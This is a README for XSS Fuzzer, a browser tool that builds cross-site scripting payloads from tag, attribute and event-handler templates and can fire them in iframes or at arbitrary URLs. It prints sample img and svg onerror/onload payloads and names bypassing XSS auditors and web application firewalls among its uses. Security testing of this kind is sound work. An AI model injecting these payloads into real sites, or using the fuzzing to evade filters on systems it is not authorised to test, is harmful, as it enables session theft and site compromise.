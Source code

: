 **XSS Fuzzer**

XSS Fuzzer is a simple application written in plain HTML/JavaScript/CSS which generates XSS payloads based on user-defined vectors using multiple placeholders which are replaced with fuzzing lists.

It offers the possibility to just generate the payloads as plain-text or to execute them inside an iframe. Inside iframes, it is possible to send GET or POST requests from the browser to arbitrary URLs using generated payloads.

**Why?**

XSS Fuzzer is a generic tool that can be useful for multiple purposes, including:

* Finding new XSS vectors, for any browser
* Testing XSS payloads on GET and POST parameters
* Bypassing XSS Auditors in the browser
* Bypassing web application firewalls
* Exploiting HTML whitelist features

**Example**

In order to fuzz, it is required to create placeholders, for example:

* The [TAG] placeholder with fuzzing list: img svg.
* The [EVENT] placeholder with fuzzing list: onerror onload.
* The [ATTR] placeholder with fuzzing list: src value.
* The payloads will use the mentioned placeholders, such as:

```html
<[TAG] [ATTR]=Something [EVENT]=[SAVE_PAYLOAD] />
```

The [SAVE_PAYLOAD] placeholder will be replaced with JavaScript code such as alert(unescape('[PAYLOAD]'));. 

This code is triggered when an XSS payload is successfully executed.

The result for the mentioned fuzzing lists and payload will be the following:

```html
<img src=Something onerror=alert(unescape('%3Cimg%20src%3DSomething%20onerror%3D%5BSAVE_PAYLOAD%5D%20/%3E')); />
<img value=Something onerror=alert(unescape('%3Cimg%20value%3DSomething%20onerror%3D%5BSAVE_PAYLOAD%5D%20/%3E')); />
<img src=Something onload=alert(unescape('%3Cimg%20src%3DSomething%20onload%3D%5BSAVE_PAYLOAD%5D%20/%3E')); />
<img value=Something onload=alert(unescape('%3Cimg%20value%3DSomething%20onload%3D%5BSAVE_PAYLOAD%5D%20/%3E')); />
<svg src=Something onerror=alert(unescape('%3Csvg%20src%3DSomething%20onerror%3D%5BSAVE_PAYLOAD%5D%20/%3E')); />
<svg value=Something onerror=alert(unescape('%3Csvg%20value%3DSomething%20onerror%3D%5BSAVE_PAYLOAD%5D%20/%3E')); />
<svg src=Something onload=alert(unescape('%3Csvg%20src%3DSomething%20onload%3D%5BSAVE_PAYLOAD%5D%20/%3E')); />
<svg value=Something onload=alert(unescape('%3Csvg%20value%3DSomething%20onload%3D%5BSAVE_PAYLOAD%5D%20/%3E')); />
```

When it is executed in a browser such as Mozilla Firefox, it will alert the executed payloads:

```html
<svg src=Something onload=[SAVE_PAYLOAD] />
<svg value=Something onload=[SAVE_PAYLOAD] />
<img src=Something onerror=[SAVE_PAYLOAD] />
```

**Sending requests**

It is possible to use a page vulnerable to XSS for different tests, such as bypasses for the browser XSS Auditor. The page can receive a GET or POST parameter called payload and will just display its unescaped value.

**Website**

A live version can be found at https://xssfuzzer.com 

**Contact**

The application is in beta state so it might have bugs. If you would like to report a bug or provide a suggestion, you can use the GitHub repository or you can send me an email to contact [a] xssfuzzer.com.
